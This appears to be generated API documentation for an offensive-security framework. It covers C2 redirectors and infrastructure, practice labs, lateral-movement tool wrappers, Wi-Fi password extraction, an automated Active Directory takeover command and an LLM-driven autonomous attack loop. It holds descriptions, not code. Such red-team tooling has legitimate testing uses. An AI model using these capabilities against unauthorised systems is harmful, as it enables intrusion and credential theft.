**File Doc:** *Disposable infrastructure commands -- redirectors, C2, cloud IaC.  Provides ``infra redirector``, ``infra deploy`` and ``infra destroy`` workflows on top of ``deploy/`` assets. Local Docker is the default; cloud providers (DigitalOcean/AWS) run through Terraform when available.  Discovery is automatic: ``cli.registry.register_command_sets`` finds this ``CommandSet`` because it subclasses ``LazyOwnCommandSet``.*

**Classes:**
- `InfraCommandSet` (line 93) `class InfraCommandSet(LazyOwnCommandSet)` - *Manage disposable C2 infrastructure and redirectors.*

**Functions:**
- `_run_capture` (line 52) `def _run_capture(argv, timeout)` - *Run a command capturing output without shell injection.

Args:
    argv: Argument vector, never a shell string.
    timeout: Seconds before aborting.

Returns:
    CompletedProcess with captured text output.*
- `_binary_present` (line 65) `def _binary_present(name)` - *Check whether a binary exists on PATH.

Args:
    name: Binary name to locate.

Returns:
    True when found on PATH.*
- `_parse_tunnel_urls` (line 77) `def _parse_tunnel_urls(log_text)` - *Extract unique trycloudflare URLs from cloudflared logs.

Args:
    log_text: Raw log content.

Returns:
    Deduplicated URL list preserving order.*

**Methods:**
- `_c2_port` (line 99) `def _c2_port(self)` - *Resolve the C2 port from params with a safe default.

Returns:
    C2 port number.*
- `_load_state` (line 110) `def _load_state(self)` - *Load redirector state file.

Returns:
    State dict, empty when missing or corrupt.*
- `_save_state` (line 123) `def _save_state(self, state)` - *Persist redirector state file.

Args:
    state: State dict to write.*
- `do_infra` (line 136) `def do_infra(self, line)` - *Manage disposable C2 infrastructure.

Usage:
    infra redirector spawn [--count N] [--port PORT]
    infra redirector list
    infra redirector kill --all
    infra deploy --provider local|docker|digitalocean|aws [--region nyc1]
    infra destroy --provider local|docker|digitalocean|aws
    infra status

Examples:
    infra redirector spawn --count 2
    infra deploy --provider local
    infra deploy --provider digitalocean --region nyc1
    infra destroy --provider local*
- `_infra_redirector` (line 170) `def _infra_redirector(self, args)` - *Dispatch redirector subcommands.

Args:
    args: Tokens after ``redirector``.*
- `_redirector_spawn` (line 202) `def _redirector_spawn(self, count, port)` - *Spawn disposable cloudflared redirectors via Docker Compose.

Args:
    count: Number of redirector replicas.
    port: Local C2 port to expose through the tunnel.*
- `_redirector_list` (line 262) `def _redirector_list(self)` - *List known redirector URLs with age, pruning stale entries.*
- `_redirector_kill` (line 291) `def _redirector_kill(self, args)` - *Tear down redirector containers and clear state.

Args:
    args: Expected to contain ``--all``.*
- `_infra_deploy` (line 308) `def _infra_deploy(self, args)` - *Deploy ephemeral C2 infrastructure locally or in the cloud.

Args:
    args: CLI tokens including ``--provider`` and ``--region``.*
- `_ask_provider` (line 326) `def _ask_provider(self)` - *Interactively ask for local vs cloud deployment.

Returns:
    Provider string, defaulting to local on non-interactive stdin.*
- `_deploy_local` (line 344) `def _deploy_local(self)` - *Bring up the local C2 stack with automatic TLS via Caddy.*
- `_deploy_cloud` (line 364) `def _deploy_cloud(self, provider, region)` - *Deploy cloud infrastructure through Terraform.

Args:
    provider: Cloud provider id (digitalocean/aws).
    region: Region slug, validated for DigitalOcean.*
- `_infra_destroy` (line 411) `def _infra_destroy(self, args)` - *Destroy ephemeral infrastructure for a provider.

Args:
    args: CLI tokens including ``--provider``.*
- `_infra_status` (line 447) `def _infra_status(self)` - *Show local containers, terraform state, and redirector URLs.*

#### `lab.py`
**Path:** `cli/commands/lab.py`
**File Doc:** *Lab environment commands -- spin up vulnerable practice targets.  Provides on-demand CTF-style lab scenarios powered by Docker containers. Operators can practice techniques against realistic targets without risking production systems.*

**Classes:**
- `LabCommandSet` (line 81) `class LabCommandSet(LazyOwnCommandSet)` - *Manage local CTF lab environments via Docker.*

**Methods:**
- `_docker_available` (line 87) `def _docker_available(self)` - *Check if Docker is installed and the daemon is reachable.*
- `_running_containers` (line 100) `def _running_containers(self)` - *Return list of running lab container names.*
- `_container_name` (line 114) `def _container_name(self, scenario)` - *Return the container name for a given scenario.*
- `do_lab` (line 119) `def do_lab(self, line)` - *Manage local CTF practice labs.

Usage:
    lab list                     — show available scenarios
    lab start <scenario>         — spin up a vulnerable target
    lab stop <scenario>          — tear down a running scenario
    lab status                   — show running labs
    lab range start <profile>    — start a cyber range (ad-mini)
    lab range stop <profile>     — stop a cyber range
    lab range status             — range container status
    lab range verify <profile>   — fire a real exploit to prove it works

Examples:
    lab start metasploitable
    lab start wordpress
    lab list
    lab status
    lab stop metasploitable
    lab range start ad-mini

Requires Docker. Lab containers are isolated and safe for practice.*
- `_lab_list` (line 171) `def _lab_list(self)` - *Display available lab scenarios.*
- `_lab_start` (line 185) `def _lab_start(self, scenario)` - *Spin up a lab scenario container.*
- `_lab_stop` (line 234) `def _lab_stop(self, scenario)` - *Stop a running lab scenario.*
- `_range_dispatch` (line 252) `def _range_dispatch(self, args)` - *Dispatch ``lab range`` subcommands.

Args:
    args: Tokens after ``range`` (start|stop|status + profile).*
- `_range_list` (line 284) `def _range_list(self)` - *Display available cyber range profiles.*
- `_range_compose` (line 293) `def _range_compose(self, profile)` - *Resolve the compose file for a range profile.

Args:
    profile: Range profile name.

Returns:
    Compose file path, or None when unknown.*
- `_range_start` (line 312) `def _range_start(self, profile)` - *Start a cyber range profile via Docker Compose.

Args:
    profile: Range profile name.*
- `_range_container_state` (line 351) `def _range_container_state(self, container)` - *Read a container's lifecycle state.

Args:
    container: Container name to inspect.

Returns:
    State string (``running``, ``restarting``, ...) or empty.*
- `_range_wait_healthy` (line 374) `def _range_wait_healthy(self, compose, timeout)` - *Wait for range containers to run and probe host-side ports.

Polls the DC and workstation states, then TCP-probes the published
SSH and LDAP ports from this host so the operator knows the range
is reachable before practicing.

Args:
    compose: Compose file of the range profile (unused for probing,
        kept for future per-profile port tables).
    timeout: Maximum seconds to wait for ``running`` state.*
- `_range_verify` (line 406) `def _range_verify(self, profile)` - *Prove the range is exploitable by firing a real exploit.

For ``ad-mini`` this triggers the vsftpd 2.3.4 backdoor on ws01
from this host and checks the shell answers ``uid=0``. This is a
proof-of-exploit, not a banner check.

Args:
    profile: Range profile name.*
- `_tcp_reachable` (line 442) `def _tcp_reachable(host, port, timeout)` - *Probe one TCP port from this host.

Args:
    host: Hostname or IP to probe.
    port: TCP port to probe.
    timeout: Connection timeout in seconds.

Returns:
    True when the connection succeeds.*
- `_ensure_range_secret` (line 459) `def _ensure_range_secret(self, profile_dir)` - *Generate the DC admin secret file when missing.

The Samba DC entrypoint reads the Administrator password from a
Docker secret file. The secret is generated per deployment with a
random value and never committed; ``secrets/`` is gitignored.

Args:
    profile_dir: Range profile directory holding the compose file.

Returns:
    The Administrator password string, or empty on failure.*
- `_range_container_ip` (line 489) `def _range_container_ip(self, container)` - *Resolve a range container's IP on its compose network.

Args:
    container: Container name to inspect.

Returns:
    IPv4 address string, or empty when unavailable.*
- `_range_stop` (line 518) `def _range_stop(self, profile)` - *Stop a cyber range profile.

Args:
    profile: Range profile name.*
- `_range_status` (line 536) `def _range_status(self)` - *Show range container status.*
- `_lab_status` (line 548) `def _lab_status(self)` - *Show currently running lab containers.*

#### `lateral.py`
**Path:** `cli/commands/lateral.py`
**File Doc:** *Lateral Movement command set (pending).  Phase 08 — commands for lateral movement: tunneling, pivoting, remote execution, and protocol-specific lateral movement tools.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.*

**Classes:**
- `LateralMovementCommandSet` (line 24) `class LateralMovementCommandSet(LazyOwnCommandSet)` - *Lateral Movement phase commands (pending).*

**Methods:**
- `do_socat` (line 31) `def do_socat(self, line)` - *Run socat for port forwarding.*
- `do_chisel` (line 43) `def do_chisel(self, line)` - *Run chisel for quick tunneling.*
- `do_set_proxychains` (line 59) `def do_set_proxychains(self, line)` - *Configure proxychains for the current session.*
- `do_ngrok` (line 72) `def do_ngrok(self, line)` - *Start ngrok tunnel.*
- `do_ligolo` (line 79) `def do_ligolo(self, line)` - *Run Ligolo-ng for advanced pivoting.*
- `do_nc` (line 91) `def do_nc(self, line)` - *Netcat listener or connect.*
- `do_wmiexec` (line 106) `def do_wmiexec(self, line)` - *Execute commands via WMI.*
- `do_ssh` (line 114) `def do_ssh(self, line)` - *SSH to a remote host (custom port).*

#### `lateral_migrated.py`
**Path:** `cli/commands/lateral_migrated.py`
**File Doc:** *lateral commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `LateralMigratedCommandSet` (line 24) `class LateralMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `install_wmiexecpro` (line 1070) `def install_wmiexecpro()`

**Methods:**
- `do_vpn` (line 29) `def do_vpn(self, line)` - *Connect to a VPN by selecting from available .ovpn files.

This function performs the following actions:
1. Lists all `.ovpn` files in the current directory, sorted alphabetically.
2. Handles cases with and without arguments:
- Without arguments: Lists available `.ovpn` files and prompts the user to select one by number.
- With a single argument: Treats the argument as a number and attempts to connect to the corresponding `.ovpn` file.
3. Connects to the selected `.ovpn` file using `openvpn` and displays appropriate messages.
4. Handles invalid input with error messages.

Usage:
    vpn           # List available .ovpn files and select one to connect to
    vpn <number>  # Connect directly to the .ovpn file corresponding to the number

:param line: The number of the .ovpn file to connect to, or an empty string to list available files.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Run the function with no arguments to list available `.ovpn` files.
2. Choose a file by entering the corresponding number.
3. Alternatively, run the function with a number argument to connect directly to the specified `.ovpn` file.

Note: Ensure you have the necessary permissions and the `openvpn` command is available on your system.*
- `do_id_rsa` (line 101) `def do_id_rsa(self, line)` - *Create an SSH private key file and connect to a remote host using SSH.

This function performs the following actions:
1. Checks if the provided remote host (`self.params['rhost']`) is valid.
2. Verifies that a username is provided as an argument.
3. Creates an SSH private key file in the `sessions` directory with a name based on the provided username.
4. Opens the created file in the `nano` text editor for the user to paste the private key.
5. Sets the file permissions to read-only for the owner (600).
6. Optionally formats the key if the user chooses to.
7. Connects to the remote host via SSH using the created private key.
8. Displays a warning message when the SSH connection is closed.

Usage:
    id_rsa <username>

:param line: The username for SSH connection and private key file naming.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Run the function with the username argument, e.g., `id_rsa myuser`.
2. Paste the private key into the `nano` editor when prompted.
3. Save and exit the editor.
4. The SSH connection will be established using the private key.

Note: Ensure you have the necessary permissions to create files and connect via SSH.*
- `do_sshd` (line 172) `def do_sshd(self, line)` - *Starts the SSH service and displays its status.

1. Executes the command to start the SSH service:
- Runs `sudo systemctl start ssh` to initiate the SSH service.

2. Displays the status of the SSH service:
- Runs `sudo systemctl status ssh` to show the current status of the SSH service.

:param line: Not used in this function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Execute `sudo systemctl start ssh` to start the SSH service.
- Run `sudo systemctl status ssh` to check the status of the SSH service.

Note: Ensure that you have the necessary permissions to start services using `sudo` and that the SSH service is installed on your system.*
- `do_wifipass` (line 199) `def do_wifipass(self, line)` - *This function generates a PowerShell script that retrieves saved Wi-Fi passwords on a Windows system.
The script gathers the Wi-Fi profiles, extracts their passwords, and saves the information in a text file
named 'wifi_passwords.txt' in the directory where the script is executed. The generated PowerShell command
is copied to the clipboard for easy execution.

Parameters:
line (str): This parameter is not used within the function but is required for the command interface.

The function does not return any value.*
- `do_bloodyAD` (line 229) `def do_bloodyAD(self, line)` - *Execute the bloodyAD.py command for a specific user or all users listed in the users.txt file.

This function interacts with BloodyAD to add users to a group in an Active Directory environment.
It allows the user to select a specific user from the list or execute the command for all users.
(use download_external option 48 to clone the repo)
Args:
    line (str): The organizational unit (OU) in the format 'CN=EXAMPLE,DC=DOMAIN,DC=EXT'.
                If not provided, the user is prompted to enter it.

Returns:
    None

Workflow:
    1. Extract parameters and set up paths.
    2. Check the reachability of the remote host.
    3. Prompt the user for a CN if not provided.
    4. Check if the users.txt file exists and read the list of users.
    5. Display the list of users and prompt the user to select a specific user.
    6. Execute the bloodyAD.py command for the selected user or all users.

Raises:
    FileNotFoundError: If the users.txt file does not exist.

Example:
    To execute the command for a specific user:
    >>> do_bloodyAD("")

    To execute the command for all users:
    >>> do_bloodyAD("")*
- `do_getTGT` (line 321) `def do_getTGT(self, line)` - *Requests a Ticket Granting Ticket (TGT) using the Impacket tool with provided credentials.

This function performs the following actions:
1. Checks if the provided target host (`self.params['rhost']`) is valid.
2. Reads credentials from the `credentials.txt` file.
3. Uses each credential (username and password) to request a TGT with the Impacket tool.
4. Constructs and executes the Impacket command to obtain a TGT for each set of credentials.

Parameters:
line (str): A command line argument, not used in this implementation.

Returns:
None*
- `do_tord` (line 369) `def do_tord(self, line)` - *Execute the tor.sh script with the specified port or default to port 80 if no port is provided.

This function constructs a command to run the `tor.sh` script with superuser privileges,
it defaults to port 80.
The command is then printed and executed.

Parameters:
line (str): Defaults to "80"

Returns:
None

Example:
>>> do_tord(self, "")
sudo bash sessions/tor.sh

>>> do_tord(self, "")
sudo bash sessions/tor.sh

Note:
Ensure that the `tor.sh` script exists in the `sessions` directory and that you have the
necessary permissions to execute scripts with `sudo`.*
- `do_shadowsocks` (line 404) `def do_shadowsocks(self, line)` - *Execute the Shadowsocks tool to create a secure tunnel for network traffic.

This function allows the user to specify various parameters for configuring and running the Shadowsocks client
or server. It handles user input for server address, port, password, encryption method, and other options,
constructs the command, and executes it.

:param line: Not used in this implementation.
:returns: None*
- `do_rnc` (line 477) `def do_rnc(self, line)` - *Runs `nc` with rlwrap  the specified port for listening.

This function starts a `nc` listener with rlwrap  on the specified local port. It can use a port defined in the `lport` parameter or a port provided as an argument.

Usage:
    rnc <port>

:param line: The port number to use for the `nc` listener. If not provided, it defaults to the `lport` parameter.
:type line: str
:returns: None

Manual execution:
1. Ensure that `nc` is installed and accessible from your command line.
2. The port number can either be provided as an argument or be set in the `lport` parameter of the function.
3. Run the function to start `nc` on the specified port.

If no port is provided as an argument, the function will use the port specified in the `lport` parameter. If a port is provided, it overrides the `lport` value.

After starting the listener, the function prints a message indicating that `nc` is running on the specified port and another message when the session is closed.

Dependencies:
- `nc`: A tool used for creating reverse shells or bind shells.*
- `do_gospherus` (line 543) `def do_gospherus(self, line)` - *Command gospherus: Clones and uses the Gopherus tool to generate gopher payloads for various services.
Use the command template_helper_serializer to generate the serialization payload. more info help template_helper_serializer

This function performs the following tasks:
0. Install Python2 (Old protocol, old t00l, old python)
1. Checks if Gopherus is already cloned in the external/.exploit directory.
2. Clones the Gopherus repository if not already present.
3. Enumerates the possible exploits and prompts the user to choose one.
4. Runs the selected exploit using Gopherus.

Args:
    line (str): Optional argument for specifying the chosen exploit.

Returns:
    None

Example:
    gospherus 2*
- `do_mssqlcli` (line 613) `def do_mssqlcli(self, line)` - *Attempts to connect to an MSSQL server using the mssqlclient.py tool with Windows authentication.

The function retrieves the necessary parameters (remote host and self.params['domain']) from the
instance's parameter dictionary. If a credentials file exists in the 'sessions_dir',
it reads the file and uses the username/password combinations found there. If the file
does not exist, it prompts the user for a username and password.

The password is copied to the clipboard for convenience. A command is constructed using
the mssqlclient.py tool, and it is then executed to initiate the connection to the MSSQL
server.

Args:
    line (str): The password input from the command line or an empty string if not provided.

Returns:
    None*
- `do_penelope` (line 666) `def do_penelope(self, line)` - *Command penelope: Installs and runs Penelope for handling reverse and bind shells.

This function performs the following tasks:
1. Checks if Penelope is already cloned in the external/.exploit directory.
2. Clones the Penelope repository if not present.
3. Prompts the user for various options to configure and run Penelope.
4. Executes Penelope with the specified options, supporting multiple features like reverse shell, bind shell, file server, etc.

Args:
    line (str): Optional argument for specifying the port and other Penelope options.

Returns:
    None

Example:
    penelope 5555 -i eth0*
- `do_stormbreaker` (line 777) `def do_stormbreaker(self, line)` - *Command stormbreaker: Automates the installation and usage of Storm-Breaker for performing various network attacks.

This function performs the following tasks:
1. Clones and installs Storm-Breaker if not already installed.
2. Prompts the user for optional parameters and target configuration.
3. Executes Storm-Breaker to perform various attacks using the target configuration.

Args:
    line (str): Optional argument for specifying additional Storm-Breaker options.

Returns:
    None

Example:
    stormbreaker --verbose*
- `do_regeorg` (line 823) `def do_regeorg(self, line)` - *Executes the reGeorg tool for HTTP(s) tunneling through a SOCKS proxy.

This function performs the following actions:
1. Checks if the reGeorg tool is installed; if not, it clones the repository and sets up the environment.
2. Validates the command line arguments, specifically the port and URL required for the SOCKS proxy.
3. Constructs the command to run the reGeorg SOCKS proxy with the specified options and executes it.
4. Provides usage instructions in case of incorrect command line argument formats.

Parameters:
line (str): Command argument specifying the parameters for the reGeorg execution.
            - The expected format is: "<port> <url>", where <port> is the listening port and <url> is the URL
            containing the tunnel script.

Returns:
None*
- `do_targetedKerberoas` (line 871) `def do_targetedKerberoas(self, line)` - *Executes the targetedKerberoast tool for extracting Kerberos service tickets.

This function performs the following actions:
1. Verifies the presence of the targetedKerberoast tool; if not installed, it clones the repository and installs dependencies.
2. Prompts for parameters such as the self.params['domain'], username, and other configurations required by targetedKerberoast.
3. Executes the targetedKerberoast tool with specified options for obtaining "kerberoastable" hashes.

Parameters:
line (str): Command arguments specifying the user, self.params['domain'], and options.
            Expected format:
                - self.params['domain'] user hash or password [optional parameters]

Returns:
None*
- `do_dcomexec` (line 931) `def do_dcomexec(self, line)` - *Executes the Impacket dcomexec tool to run commands on a remote system using DCOM.

This function performs the following actions:
1. Validates the target host (self.params['rhost']) and self.params['domain'] parameters.
2. If the line argument is "pass", it searches for credential files with the pattern `credentials*.txt`,
allows the user to select credentials, and constructs the dcomexec command using them.
3. If the line argument is "hash", it searches for a hash file, prompts the user for a username, and
constructs the dcomexec command using the hash.
4. If line does not match "pass" or "hash", it displays an error message with usage instructions.

Parameters:
line (str): A command argument to determine the authentication mode.
            If "pass", the function searches for credential files and authenticates using the selected file.
            If "hash", it uses a hash file for authentication.
            If neither, it prints an error message with usage instructions.

Returns:
None*
- `do_upload_c2` (line 1002) `def do_upload_c2(self, line)` - *upload command in the client using the C2 to upload a file

Parameters:
command (str): client_id [optional], Command to exec.

Returns:
None*
- `do_wmiexecpro` (line 1031) `def do_wmiexecpro(self, line)` - *Executes wmiexec-pro with various options for WMI operations.

This function handles the installation of wmiexec-pro and its dependencies,
and allows the user to execute various WMI operations with minimal input.
It reads credentials from a specified file and constructs the necessary
commands to interact with the target system.

:param line: Command line input from the user. This input is used to
            determine the module and action to be executed.
:returns: None

The function performs the following steps:
1. Checks if wmiexec-pro and its dependencies are installed. If not, it
installs them in specified directories.
2. Reads credentials from a file.
3. Constructs and executes the wmiexec-pro command based on user input.
4. Enumerates available modules and actions for each module, allowing the
user to select them interactively.
5. Enumerates available options for each action, allowing the user to select
them interactively.

Example usage:
```
do_wmiexecpro("enum -run")
```

This will execute the enumeration module with the `-run` action.

If no specific command is provided, the function will prompt the user to
select a module and action interactively.*
- `do_lateral_mov_lin` (line 1247) `def do_lateral_mov_lin(self, line)` - *Perform lateral movement by downloading and installing LazyOwn on a remote Linux machine.

This function automates the process of setting up an APT and PIP proxy, downloading the LazyOwn package,
transferring it to a remote machine, and installing it. The function ensures that all necessary directories
are created and that the package is correctly installed on the remote machine.

Parameters:
    line (str): The command line input, which is not used in this function.

Returns:
    None*
- `do_addcli` (line 1302) `def do_addcli(self, line)` - *Add a client to execute c2 commands

Parameters:
    line (str): The command line input, which is not used in this function.

Returns:
    None*
- `do_dominion` (line 1317) `def do_dominion(self, line)` - *Execute a fully automated Active Directory domain takeover.

Runs the complete AD kill-chain: domain enumeration, user discovery,
credential extraction (AS-REP roasting, Kerberoasting), lateral movement
via PsExec/WMIExec/Pass-the-Hash, DCSync privilege escalation, and
persistence mechanisms.

Usage:
    dominion <domain> <dc_ip> [username] [password]
    dominion corp.local 10.10.11.5
    dominion corp.local 10.10.11.5 admin Password123!
    dominion corp.local 10.10.11.5 admin :ntlm_hash

All credentials, sessions, and findings are persisted under
``sessions/``. Use ``creds`` to view captured credentials afterwards.

:param line: Domain, DC IP, optional credentials.
:type line: str
:return: None*

#### `lazyloop.py`
**Path:** `cli/commands/lazyloop.py`
**File Doc:** *Lazy queue and misc command set.  Engine-backed operator surface with ``lazy_`` names. Every command here reads or writes the single ``modules.lazy_engine`` store, so queue, findings, verdicts and guard reviews always match what the autonomous loop (``lazy_loop`` / ``auto_loop``) sees. The per-task engine surface (status, broadcast, trace, hint, steer, kill, retest) lives in ``cli.commands.lazyops``; no name is duplicated across both sets.*

**Classes:**
- `LazyQueueCommandSet` (line 29) `class LazyQueueCommandSet(LazyOwnCommandSet)` - *Lazy queue controls backed by the loop engine.*

**Functions:**
- `_engine` (line 22) `def _engine()` - *Return a fresh engine handle over the persisted lazy store.*

**Methods:**
- `do_lazy_sync` (line 36) `def do_lazy_sync(self, line)` - *Run bidirectional LAZY sync into world model and objectives.

Usage:
    lazy_sync*
- `do_lazy_intents` (line 51) `def do_lazy_intents(self, line)` - *List engine intents for a task, optionally filtered by state.

Usage:
    lazy_intents <task_id> [state]*
- `do_lazy_delete` (line 71) `def do_lazy_delete(self, line)` - *Delete an engine intent; soft keeps outputs, hard cascades.

Usage:
    lazy_delete <task_id> <intent_id> --reason <text> [--hard] [--yes]*
- `do_lazy_findings` (line 110) `def do_lazy_findings(self, line)` - *List engine findings for a task, optionally filtered by status.

Usage:
    lazy_findings <task_id> [status]*
- `do_lazy_verdict` (line 132) `def do_lazy_verdict(self, line)` - *Record a manual retest verdict on an engine finding.

Usage:
    lazy_verdict <task_id> <finding_id> <reproduced|fixed|inconclusive> [--note <text>]*
- `do_lazy_mention` (line 155) `def do_lazy_mention(self, line)` - *Search @ mention candidates with scroll pagination.

Usage:
    lazy_mention [kind] [query] [--cursor C]*
- `do_lazy_approve` (line 190) `def do_lazy_approve(self, line)` - *List engine guard reviews filtered by decision and source.

Usage:
    lazy_approve <task_id> [ALLOW|ASK|DENY] [source]*
- `do_lazy_fleet` (line 212) `def do_lazy_fleet(self, line)` - *Cross-task fleet: list | graph <task> | findings <task> | traces <task> [query] | node <task> <id> | pause <task> | resume <task> | report <task> <finding> <text...>

Usage:
    lazy_fleet list
    lazy_fleet graph t0001
    lazy_fleet findings t0001
    lazy_fleet traces t0001 ssh
    lazy_fleet node t0001 12
    lazy_fleet pause t0001
    lazy_fleet report t0001 7 ## Summary ...*
- `do_lazy_orchestrator` (line 277) `def do_lazy_orchestrator(self, line)` - *Admin console for the loop (Textual TUI).

Tabs: Now (what the orchestrator is executing right now, live
activity tail and per-worker current command), Config (payload
knobs the runner reads), Models (LLM failover chain add/remove),
Guard (intercept rules add/remove). Keys: r refresh, s save
config, a add, d delete, q quit.

Usage:
    lazy_orchestrator [task_id]*
- `do_lazy_view` (line 299) `def do_lazy_view(self, line)` - *Attach the live worker monitor to a task (or the newest task).

Split panes per worker plus audit tabs (activity, guard,
traffic, findings) and operator keys: q quit, p/r pause/resume,
a/d approve/deny first pending intercept, h hint, s steer,
k kill. Works from a second terminal while ``lazy_loop`` runs.

Usage:
    lazy_view [task_id]*

#### `lazyops.py`
**Path:** `cli/commands/lazyops.py`
**File Doc:** *Lazy autonomous loop commands (single orchestrator, lazy_* surface).  Every subsystem is invocable individually so the operator sees what it does, plus ``lazy_loop`` driving the full engine. The orchestrator auto-invokes every step internally, so a human runs ONE command and the engine runs scope, asset, enrich, planner, frontier, worker, guard, traffic, finding, retest, compaction, trace.  Example session (operator-visible, real commands): lazy_task create gain initial access on 127.0.0.1 lazy_scope add ip 127.0.0.1 local test lazy_asset add ip 127.0.0.1 lazy_loop --task t0001 --rounds 6 --workers 2*

**Classes:**
- `LazyCommandSet` (line 35) `class LazyCommandSet(LazyOwnCommandSet)` - *Lazy double-graph autonomous loop: planner, workers, guard, retest.*

**Functions:**
- `_engine` (line 28) `def _engine()` - *Import LazyEngine lazily so the shell boots without it.*
- `run_command` (line 1539) `def run_command(command)` - *Execute one shell command or LazyOwn verb and return its output.*
- `list_tasks` (line 1561) `def list_tasks()` - *List every task with status, intents, facts and findings.*
- `task_graph` (line 1565) `def task_graph(task)` - *Graph overview of one task (defaults to the active task).*
- `task_findings` (line 1569) `def task_findings(task)` - *Findings of one task with severity, status and report size.*
- `campaign_sitrep` (line 1573) `def campaign_sitrep()` - *Campaign summary: tasks, findings and phase counters.*
- `add_hint` (line 1586) `def add_hint(text)` - *Inject an operator hint into the active task planner.*
- `steer_intent` (line 1593) `def steer_intent(intent, message)` - *Send a mid-run course correction to a running intent.*

**Methods:**
- `_task_id` (line 41) `def _task_id(self, args)` - *Resolve --task flag or fall back to the newest task.*
- `_require_task` (line 54) `def _require_task(self, args)` - *Return task id or print usage error and empty string.*
- `_free_text` (line 62) `def _free_text(args)` - *Return positional words with flag values stripped.*
- `do_lazy_dispatch` (line 88) `def do_lazy_dispatch(self, line)` - *Dispatch one detached task to an external agent: opencode|hermes [--in DIR] [--resume S] [--max-turns N] [--run-budget S] [--timeout S] <task...>. Usage: lazy_dispatch ...*
- `do_lazy_task` (line 143) `def do_lazy_task(self, line)` - *Create/list/show/pause/resume/delete/spawn/queue/limit/drain tasks. Usage: lazy_task create <goal> | lazy_task list | lazy_task show|pause|resume|delete [--task T] | lazy_task spawn <goal> --from t0001[,t0002] | lazy_task limit [N] | lazy_task queue | lazy_task drain*
- `do_lazy_graph` (line 265) `def do_lazy_graph(self, line)` - *Show planner-facing graph overview. Usage: lazy_graph [--task T]*
- `do_lazy_context` (line 294) `def do_lazy_context(self, line)` - *Render the bounded prompt context the planner/worker LLMs receive. Usage: lazy_context [--task T] [--budget N]*
- `do_lazy_skill` (line 315) `def do_lazy_skill(self, line)` - *Skills: list|show <name>|preview|inject <name...>|clear|auto on|off|mirror [name]|register-hermes. Usage: lazy_skill ... [--task T]*
- `do_lazy_workspace` (line 397) `def do_lazy_workspace(self, line)` - *Confined workspace files: list [path]|read <path>|write <path> <text>|mkdir <path>|rm <path>|path. Usage: lazy_workspace ...*
- `do_lazy_selfupdate` (line 450) `def do_lazy_selfupdate(self, line)` - *Self-update: check [--branch B]|apply [--yes] [--branch B]. Usage: lazy_selfupdate ...*
- `do_lazy_planner` (line 478) `def do_lazy_planner(self, line)` - *Run one planner wakeup (emits 0..N intents). Usage: lazy_planner [--task T]*
- `do_lazy_frontier` (line 497) `def do_lazy_frontier(self, line)` - *Show pending intent queue. Usage: lazy_frontier [--task T]*
- `do_lazy_worker` (line 509) `def do_lazy_worker(self, line)` - *Claim ONE intent and execute it with real tools. Usage: lazy_worker [--task T] [--intent N]*
- `do_lazy_trace` (line 549) `def do_lazy_trace(self, line)` - *Worker trace exchange. Usage: lazy_trace list|search <q>|search-all <q>|get <intent>|steps <intent> [--q Q]|step <intent> <n> [--task T]*
- `do_lazy_broadcast` (line 602) `def do_lazy_broadcast(self, line)` - *Exploration timeline. Usage: lazy_broadcast [--task T] [--kind K] [--q Q] [--asc] [--page N] [--limit N]*
- `do_lazy_hint` (line 637) `def do_lazy_hint(self, line)` - *Inject steering hint. Usage: lazy_hint <text> [--task T]*
- `do_lazy_intent` (line 649) `def do_lazy_intent(self, line)` - *Inject high-priority intent. Usage: lazy_intent <summary> [--task T] [--priority N]*
- `do_lazy_intent_delete` (line 674) `def do_lazy_intent_delete(self, line)` - *Delete an intent. Usage: lazy_intent_delete <id> --reason <text> [--hard] [--task T] [--yes]*
- `do_lazy_goal` (line 717) `def do_lazy_goal(self, line)` - *Goals: list|set <t1;t2>|edit <id> <text>|delete <id>|prove <goal> <evidence> <reason>|met <reason>. Usage: lazy_goal ... [--task T]*
- `do_lazy_constraint` (line 756) `def do_lazy_constraint(self, line)` - *Constraints: add <allow|deny> <text> | list. Usage: lazy_constraint ... [--task T]*
- `do_lazy_scope` (line 774) `def do_lazy_scope(self, line)` - *Scope: add <kind> <value> [reason] | list. Usage: lazy_scope ... [--task T]*
- `do_lazy_todo` (line 792) `def do_lazy_todo(self, line)` - *Serial chain todos: add <text> | done <id> | list. Usage: lazy_todo ... [--task T]*
- `do_lazy_asset` (line 814) `def do_lazy_asset(self, line)` - *Assets: add <kind> <value> | list [kind] | scoped [--kind K] | coverage | untested. Usage: lazy_asset ...*
- `do_lazy_enrich` (line 855) `def do_lazy_enrich(self, line)` - *Enrich asset with DNS/HTTP. Usage: lazy_enrich <host-or-url>*
- `do_lazy_traffic` (line 867) `def do_lazy_traffic(self, line)` - *Traffic: list|search <q>|search-host <host> [--port P]|get <digest>|body <digest>|blob <digest> [--part req|resp] [--offset N] [--length N]|search-body <q>|templates|template <t>|bind <finding> <digest> [--role R] [--note N]|evidence <finding>|export <path>|archive|clear|start [--port P] [--upstream H:P]|stop|status|ca|trust|ingest|recorder-export <zip> [--task T]|recorder-import <zip>|recorder-inbox|recorder-gc [--days N]. Usage: lazy_traffic ... [--task T] [--limit N]*
- `do_lazy_guard` (line 1088) `def do_lazy_guard(self, line)` - *Guard gate: check <cmd> | rule-add <pattern> <allow|ask|deny> [reason] | rule-del <p> | judge on|off [--fail allow|deny] | judge fail <allow|deny> | judge | audit [--action A] [--source S] [--q Q] [--limit N] | lookup <tool_use_id> | stats | pending | approve <id> | deny <id>. Usage: lazy_guard ...*
- `do_lazy_finding` (line 1189) `def do_lazy_finding(self, line)` - *Findings: list [--full] [--limit N]|report <name> :: <summary>|status <id> <st>|update <id> <text>|context <id>. Usage: lazy_finding ... [--task T] [--severity S] [--vulnclass C]*
- `do_lazy_retest` (line 1254) `def do_lazy_retest(self, line)` - *Retest finding to reproduced/fixed/inconclusive. Usage: lazy_retest <finding_id> [--task T] [--note TEXT]*
- `do_lazy_steer` (line 1273) `def do_lazy_steer(self, line)` - *Mid-run correction. Usage: lazy_steer <intent> <message> [--task T]*
- `do_lazy_kill` (line 1285) `def do_lazy_kill(self, line)` - *Terminate running intent. Usage: lazy_kill <intent> [--task T]*
- `do_lazy_pause` (line 1297) `def do_lazy_pause(self, line)` - *Pause task loops. Usage: lazy_pause [--task T]*
